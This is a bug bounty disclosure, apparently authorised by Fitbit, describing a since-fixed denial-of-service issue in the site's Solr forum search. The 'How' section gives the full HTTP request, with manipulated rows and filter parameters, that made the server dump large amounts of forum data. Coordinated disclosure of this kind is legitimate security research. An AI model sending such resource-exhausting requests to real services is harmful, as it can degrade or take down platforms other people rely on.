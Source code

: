 ```
Authorized Bug Bounty Disclosure
Target: Fitbit.com
Bug Type: Denial of Service
Disclosure Verification: Fitbit Authorized Disclosure on 03-09-2018
```
### Summary
Identified a method to queue up and download gigabytes, if not terabytes of data from Fitbit forums through one web request :flushed:

### Notes:
Fitbit was extremely responsive and resolved this in a timely manner :smiley:

### What
This is a location permission bug through Fitbit's implementation of solr/Lucene which enabled certain parameters to be manipulated.
It was super interesting to research that tech, which is detailed <a href="http://lucene.apache.org/solr/">here</a>.
Normally DOS (denial of service) is not within scope, however this was submitted as a general bug - with DOS potential ;)

### When
Bug discovered: 2016-05-05<br>
Bug Resolved: 2016-11-07

### How
Using the payload below at [fitbit.com/search/solrForum], the server request responds by dumping a specified amount of forum data:<br>
```
GET /search/solrForum?q=a&start=1&rows=9999&fq=(postStatus:0%20AND%20topicStatus:0) HTTP/1.1
Host: www.fitbit.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
```

### Where
It took a while to find the location, but though some research on the component, the services used were able to be identified. :sweat:

### Why
This is an issue where if utilized maliciously, could potentially cause a denial of service on the Fitbit platforms.

### Links
<a href="www.twitter.com/_eagleEggs">Twitter</a>
